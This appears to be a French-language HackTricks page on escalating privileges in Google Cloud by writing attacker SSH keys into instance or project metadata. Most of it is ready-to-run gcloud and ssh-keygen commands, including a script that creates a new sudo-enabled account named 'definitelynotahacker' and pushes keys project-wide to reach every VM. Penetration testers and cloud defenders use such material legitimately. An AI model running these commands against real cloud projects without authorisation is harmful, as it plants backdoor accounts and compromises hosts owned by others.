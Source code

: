 # GCP - Ajouter des métadonnées SSH personnalisées

## GCP - Ajouter des métadonnées SSH personnalisées

{{#include ../../../../banners/hacktricks-training.md}}

### Modification des métadonnées <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modification des métadonnées sur une instance pourrait entraîner **des risques de sécurité significatifs si un attaquant obtient les autorisations nécessaires**.

#### **Incorporation de clés SSH dans les métadonnées personnalisées**

Sur GCP, **les systèmes Linux** exécutent souvent des scripts à partir de l'[Environnement Invité Linux Python pour Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un composant critique de cela est le [démon des comptes](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), qui est conçu pour **vérifier régulièrement** le point de terminaison des métadonnées de l'instance pour **des mises à jour des clés publiques SSH autorisées**.

Par conséquent, si un attaquant peut modifier les métadonnées personnalisées, il pourrait faire en sorte que le démon trouve une nouvelle clé publique, qui sera traitée et **intégrée dans le système local**. La clé sera ajoutée dans le fichier `~/.ssh/authorized_keys` d'un **utilisateur existant ou potentiellement en créant un nouvel utilisateur avec des privilèges `sudo`**, selon le format de la clé. Et l'attaquant pourra compromettre l'hôte.

#### **Ajouter une clé SSH à un utilisateur privilégié existant**

1. **Examiner les clés SSH existantes sur l'instance :**

- Exécutez la commande pour décrire l'instance et ses métadonnées afin de localiser les clés SSH existantes. La section pertinente dans la sortie sera sous `metadata`, spécifiquement la clé `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Faites attention au format des clés SSH : le nom d'utilisateur précède la clé, séparé par un deux-points.

2. **Préparer un fichier texte pour les métadonnées de la clé SSH :**
- Enregistrez les détails des noms d'utilisateur et de leurs clés SSH correspondantes dans un fichier texte nommé `meta.txt`. Cela est essentiel pour préserver les clés existantes tout en ajoutant de nouvelles.
3. **Générer une nouvelle clé SSH pour l'utilisateur cible (`alice` dans cet exemple) :**

- Utilisez la commande `ssh-keygen` pour générer une nouvelle clé SSH, en veillant à ce que le champ de commentaire (`-C`) corresponde au nom d'utilisateur cible.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Ajoutez la nouvelle clé publique à `meta.txt`, en imitant le format trouvé dans les métadonnées de l'instance.

4. **Mettre à jour les métadonnées de la clé SSH de l'instance :**

- Appliquez les métadonnées de clé SSH mises à jour à l'instance en utilisant la commande `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Accéder à l'instance en utilisant la nouvelle clé SSH :**

- Connectez-vous à l'instance avec SSH en utilisant la nouvelle clé, accédant au shell dans le contexte de l'utilisateur cible (`alice` dans cet exemple).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Créer un nouvel utilisateur privilégié et ajouter une clé SSH**

Si aucun utilisateur intéressant n'est trouvé, il est possible d'en créer un nouveau qui se verra attribuer des privilèges `sudo` :
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Clés SSH au niveau du projet <a href="#sshing-around" id="sshing-around"></a>

Il est possible d'élargir l'accès SSH à plusieurs machines virtuelles (VM) dans un environnement cloud en **appliquant des clés SSH au niveau du projet**. Cette approche permet l'accès SSH à toute instance au sein du projet qui n'a pas explicitement bloqué les clés SSH à l'échelle du projet. Voici un guide résumé :

1. **Appliquer des clés SSH au niveau du projet :**

- Utilisez la commande `gcloud compute project-info add-metadata` pour ajouter des clés SSH à partir de `meta.txt` aux métadonnées du projet. Cette action garantit que les clés SSH sont reconnues sur toutes les VM du projet, sauf si une VM a l'option "Bloquer les clés SSH à l'échelle du projet" activée.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH dans les instances en utilisant des clés à l'échelle du projet :**
- Avec des clés SSH à l'échelle du projet en place, vous pouvez SSH dans n'importe quelle instance au sein du projet. Les instances qui ne bloquent pas les clés à l'échelle du projet accepteront la clé SSH, accordant l'accès.
- Une méthode directe pour SSH dans une instance consiste à utiliser la commande `gcloud compute ssh [INSTANCE]`. Cette commande utilise votre nom d'utilisateur actuel et les clés SSH définies au niveau du projet pour tenter d'accéder.

## Références

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
